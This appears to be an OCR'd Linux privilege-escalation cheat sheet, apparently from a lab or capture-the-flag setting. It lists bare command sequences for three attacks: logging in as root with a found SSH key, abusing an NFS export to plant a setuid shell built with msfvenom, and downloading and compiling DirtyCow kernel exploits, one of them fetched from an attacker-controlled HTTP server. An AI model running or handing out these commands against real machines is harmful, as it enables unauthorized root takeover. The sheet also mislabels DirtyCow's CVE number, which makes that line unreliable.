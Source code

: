 ## CATEGORY "PASSWORDS & KEYS" - SSH KEYS
```
ls -la /
ls -l /.ssh
chmod 600 root_key
ssh root@10.10.10.1 -i root_key
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.36.3
```

## CATEGORY "PASSWORDS & KEYS" - NFS
```
cat /etc/exports
sudo su
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.13.43:/tmp /tmp/nfs
cd /tmp/nfs  
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
/tmp/shell.elf
```

## CATEGORY "KERNEL VULNERABILITIES"   
```
CVE-2017-1000112 DIRTYCOW
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
/usr/bin/passwd
sudo wget https://www.exploit-db.com/download/40839
wget http://10.18.5.137:8000/40839 -O 40839.c
gcc -pthread 40839.c -o 40839
gcc 40839.c -o 40839
```


